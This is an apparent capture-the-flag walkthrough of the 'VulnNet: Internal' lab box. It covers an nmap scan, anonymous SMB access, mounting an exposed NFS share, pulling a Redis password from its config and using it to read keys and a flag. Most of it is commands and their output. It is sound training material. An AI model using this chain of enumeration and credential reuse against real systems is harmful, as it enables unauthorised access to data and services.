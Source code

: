 # VulnNet : Internal - Easy linux

## IP: 10.10.153.68

## Scanning

### Nmap

**Command**

`nmap -A 10.10.153.68 | tee nmap-scan`

**Output**

```
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34563/tcp6  mountd
|   100005  1,2,3      36177/udp6  mountd
|   100005  1,2,3      45406/udp   mountd
|   100005  1,2,3      51829/tcp   mountd
|   100021  1,3,4      38760/udp   nlockmgr
|   100021  1,3,4      40599/tcp   nlockmgr
|   100021  1,3,4      45753/tcp6  nlockmgr
|   100021  1,3,4      47061/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m15s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-21T14:35:03+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-21T12:35:03
|_  start_date: N/A

```

## Enumeration

We have some smb/nfs stuff to check now. Let's see

### SMB

**Commmand**

`smbclient //10.10.153.68/shares` 

**No password required**

Get file **temp/services.txt**. It contains first flag.

### NFS

Checking NFS export file

`showmount -e 10.10.153.68`

**Output**

`/opt/conf *`

Mounting NFS to a dir (just make one)

`sudo mount -t nfs 10.10.153.68:/opt/conf nfs_export_list`

checking each directory for some sort of info..... **redis/redis.conf** has something like **requirepass "B65Hx562F@ggAZ@F"**. Could be useful.

### Redis

`Redis is an in-memory data structure store, used as a distributed, in-memory key–value database, cache and message broker, with optional durability.`
-Source Wikipedia

**Default port - 6379**

Trying to connect to redis on port 6379 using: `nc 10.10.153.68 6379`

Command list for redis that can be used:

```
info --> It may return output with information of the Redis instance
AUTH --> used for authenticating with redis
KEYS --> find all keys matching the given pattern
```

**Command used :** `info`

**Output:** `-NOAUTH Authentication required.`

**Command used :** `auth B65Hx562F@ggAZ@F`

**Output:**`+OK`

Looks like we are in. Lets see what we can get. A list of supported commands can be found by typing **command** which will return redis commands or use https://redis.io/commands for checking the commands and their usage.

Lets check for keys now: `keys *`

**Output**

```
*5
$3
tmp
$3
int
$8
authlist
$10
marketlist
$13
internal flag
```

The following command results in showing the internal flag: `get "internal flag"`

